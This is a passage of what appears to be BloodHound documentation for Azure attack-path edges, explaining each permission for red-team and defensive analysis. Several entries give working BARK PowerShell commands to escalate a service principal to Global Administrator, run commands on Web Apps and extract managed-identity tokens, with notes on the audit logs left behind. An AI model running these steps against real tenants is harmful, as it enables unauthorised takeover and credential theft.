With this plain text secret, you can now acquire tokens as the
service principal associated with the app. You can easily do
this with BARK's Get-MSGraphToken function:

::

	$SPToken = Get-MSGraphToken `
	    -ClientID "4d31..." `
	    -ClientSecret "odg8Q~..." `
	    -TenantName "contoso.onmicrosoft.com"

Now you can use this JWT to perform actions against any other MS
Graph endpoint as the service principal, continuing your attack
path with the privileges of that service principal.

Opsec Considerations
--------------------

When you create a new secret for an App or Service Principal,
Azure creates an event called "Update application - Certificates
and secrets management". This event describes who added the secret
to which application or service principal.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGApplication_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Application.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGAppRoleAssignment_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the AppRoleAssignment.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGDirectory_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Directory.ReadWrite.All edge.

Abuse Info
------------

The edge is not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGGrantAppRoles
^^^^^^^

This edge is created during post-processing. It is created against 
AzureAD tenant objects when a Service Principal has one of the following 
MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

Abuse Info
------------

With the ability to grant arbitrary app roles, you can grant 
the RoleManagement.ReadWrite.Directory app role to a Service 
Principal you already control, and then promote it or another 
principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to grant app roles. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"

Use BARK's Get-AllAzureADServicePrincipals to collect all 
Service Principal objects in the tenant:

::

	$SPs = Get-AllAzureADServicePrincipals `
	    -Token $MGToken

Next, find the MS Graph Service Principal's ID. You can do this by 
piping $SPs to Where-Object, finding objects where the appId value 
matches the universal ID for the MS Graph Service Principal, which is 
00000003-0000-0000-c000-000000000000:

::

	$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id

The output will be the object ID of the MS Graph Service Principal. 
Take that ID and use it as the "ResourceID" argument for BARK's 
New-AppRoleAssignment function. The AppRoleID of '9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8' 
is the universal ID for RoleManagement.ReadWrite.Directory. The 
SPObjectId is the object ID of the Service Principal you want to grant 
this app role to:

::

	New-AppRoleAssignment `
	    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
	    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
	    -Token $MGToken

If successful, the output of this command will show you the App Role 
assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory 
MS Graph app role, you can promote the Service Principal to Global Administrator 
using BARK's New-AzureADRoleAssignment.

::

	New-AzureADRoleAssignment `
	    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
	    -Token $MGToken

If successful, the output will include the principal ID, the role ID, and a 
unique ID for the role assignment.

Opsec Considerations
--------------------

When you assign an app role to a Service Principal, the Azure 
Audit logs will create an event called "Add app role assignment 
to service principal". This event describes who made the change, 
what the target service principal was, and what app role assignment 
was granted.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGGrantRole
^^^^^^^

This edge is created during post-processing. It is created against 
all AzureAD admin roles when a Service Principal has the following 
MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or 
any other principal to any AzureAD admin role, including Global 
Administrator.

Abuse Info
------------

To abuse this privilege, you can promote a principal you control 
to Global Administrator using BARK's New-AzureADRoleAssignment.
This function requires you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to grant AzureAD admin roles. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"

Then use BARK's New-AzureADRoleAssignment function to grant the 
AzureAD role to your target principal:

::

	New-AzureADRoleAssignment `
	    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
	    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
	    -Token $MGToken

If successful, the output will include the principal ID, the role ID, and a 
unique ID for the role assignment.

Opsec Considerations
--------------------

When you assign an AzureAD admin role to a principal
using this privilege, the Azure Audit log will create
an event called "Add member to role outside of PIM 
(permanent)".

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGGroupMember_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the GroupMember.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGGroup_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the Group.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZMGRoleManagement_ReadWrite_Directory
^^^^^^^

This edge is created when a Service Principal has been 
granted the RoleManagement.ReadWrite.Directory edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://docs.microsoft.com/en-us/azure/active-directory/roles/assign-roles-different-scopes

|

----

|

AZMGServicePrincipalEndpoint_ReadWrite_All
^^^^^^^

This edge is created when a Service Principal has been 
granted the ServicePrincipalEndpoint.ReadWrite.All edge.

Abuse Info
------------

The edge is 
not abusable, but is used during post-processing to create 
abusable edges.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

|

----

|

AZNodeResourceGroup
^^^^^^^

This edge is created to link Azure Kubernetes Service 
Managed Clusters to the Virtual Machine Scale Sets they
use to execute commands on.

The system-assigned identity for the AKS Cluster will 
have the Contributor role against the target Resource Group 
and its child Virtual Machine Scale Sets.

Abuse Info
------------

You will abuse this relationship by executing a command 
against the AKS Managed Cluster the edge is emiting from.
You can target any managed identity assignment scoped to 
the Virtual Machine Scale Sets under the target Resource Group.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/

|

----

|

AZOwns
^^^^^^^

Object ownership means almost all abuses are possible against the
target object.

Abuse Info
------------

Everything a Contributor can do, with the addition of assigning
rights to resources.

Opsec Considerations
--------------------

This depends on which abuse you perform, but in general Azure will
create a log for each abuse action.

References
----------

* https://blog.netspi.com/attacking-azure-with-custom-script-extensions/
* https://docs.microsoft.com/en-us/azure/role-based-access-control/built-in-roles#owner

|

----

|

AZPrivilegedAuthAdmin
^^^^^^^^^^^^^

This edge indicates the principal has the Privileged Authentication Administrator 
role active against the target tenant. Principals with this role can update
sensitive properties for all users. Privileged Authentication Administrator can 
set or reset any authentication method (including passwords) for any user,
including Global Administrators.

Abuse Info
------------

See the abuse info under AZAddSecret or AZResetPassword.

Opsec Considerations
--------------------

See the opsec consideration under AZAddSecret or AZResetPassword.

References
----------

* https://learn.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#privileged-authentication-administrator

|

----

|

AZPrivilegedRoleAdmin
^^^^^^^^^^^^^^^^^^^^^

The Privileged Role Admin role can grant any other admin role to another principal
at the tenant level.

Abuse Info
------------

Activate the Global Admin role for yourself or for another user using PowerZure or
PowerShell.

Opsec Considerations
--------------------

The Azure Activity Log will log who activated an admin role for what other principal,
including the date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#add-azureadrole

|

----

|

AZResetPassword
^^^^^^^^^^^^^^^

The ability to change another user’s password without knowing their current password.

Abuse Info
------------

Find the user in the Azure portal, then click "Reset Password", or use PowerZure’s
Set-AzureUserPassword cmdlet. If password write-back is enabled, this password will
also be set for a synced on-prem user.

Opsec Considerations
--------------------

Azure will log each password reset event, including who performed the reset, against which account, and at what date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#set-azureuserpassword

|

----

|

AZRunsAs
^^^^^^^^

The Azure App runs as the Service Principal when it needs to authenticate to the tenant.

Abuse Info
------------

This edge should be taken into consideration when abusing control of an app. Apps authenticate
with service principals to the tenant, so if you have control of an app, what you are abusing
is that control plus the fact that the app runs as a privileged service principal.

|

----

|

AZUserAccessAdministrator
^^^^^^^^^^^^^^^^^^^^^^^^^

The User Access Admin role can edit roles against many other objects.

Abuse Info
------------
This role can be used to grant yourself or another principal any privilege
you want against Automation Accounts, VMs, Key Vaults, and Resource Groups.
Use the Azure portal to add a new, abusable role assignment against the target
object for yourself.

Opsec Considerations
--------------------

Azure will log any role activation event for any object type.

References
----------

https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/

|

----

|

AZVMAdminLogin
^^^^^^^

When a virtual machine is configured to allow logon with Azure
AD credentials, the VM automatically has certain principals
added to its local administrators group, including any principal
granted the Virtual Machine Administrator Login (or "VMAL")
admin role.

Any principal granted this role, scoped to the affected VM, can
connect to the VM via RDP and will be granted local admin rights
on the VM.

Abuse Info
------------

Connect to the VM via RDP and you will be granted local admin rights
on the VM.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently
logged on, one of two things will happen. If the user you are
abusing is the same user as the one logged on, you will
effectively take over their session and kick the logged on user
off, resulting in a message to the user. If the users are
different, you will be prompted to kick the currently logged on
user off the system and log on. If the target computer is a
server, you will be able to initiate the connection without
issue provided the user you are abusing is not currently logged
in.

Remote desktop will create Logon and Logoff events with the
access type RemoteInteractive.

References
----------

* https://attack.mitre.org/tactics/TA0008/
* https://attack.mitre.org/techniques/T1021/
* https://docs.microsoft.com/en-us/azure/active-directory/devices/howto-vm-sign-in-azure-ad-windows

|

----

|

AZVMContributor
^^^^^^^

The Virtual Machine contributor role grants almost all abusable
privileges against Virtual Machines.

Abuse Info
------------

The Virtual Machine Contributor role allows you to run SYSTEM
commands on the VM

Via PowerZure:

* `Invoke-AzureRunCommand <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azureruncommand>`_
* `Invoke-AzureRunMSBuild <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunmsbuild>`_
* `Invoke-AzureRunProgram <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunprogram>`_

Opsec Considerations
--------------------

Because you'll be running a command as the SYSTEM user on the
Virtual Machine, the same opsec considerations for running malicious
commands on any system should be taken into account: command line
logging, PowerShell script block logging, EDR, etc.

References
----------

* https://blog.netspi.com/running-powershell-scripts-on-azure-vms/

|

----

|

AZWebsiteContributor
^^^^^^^

The Website Contributor role grants full control of the target 
Function App or Web App. Full control of either of those types 
of resources allows for arbitrary command execution against the 
target resoruce.

Abuse Info
------------

You can use BARK's Invoke-AzureRMWebAppShellCommand function 
to execute commands on a target Web App. You can use BARK's 
New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, 
and Get-AzureFunctionOutput functions to execute arbitrary 
commands against a target Function App.

These functions require you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to execute commands on the web app or function app. There are
several ways to acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

Now you can use BARK's Invoke-AzureRMWebAppShellCommand function 
to execute a command against the target Web App.
For example, to run a simple "whoami" command:

::

	Invoke-AzureRMWebAppShellCommand `
	    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
	    -Token $ARMToken `
	    -Command "whoami"

If the Web App has a managed identity assignments, you can use BARK's 
Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the 
managed identity Service Principal like this:

::

	PS C:\> $PowerShellCommand =
		$headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
		$response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
		$response.RawContent
    
	PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

	PS C:\> $Command = "powershell -enc $($base64Cmd)"

	PS C:\> Invoke-AzureRMWebAppShellCommand `
		-KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
		-token $ARMToken `
		-Command $Command

If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/
* https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95

|

----

|

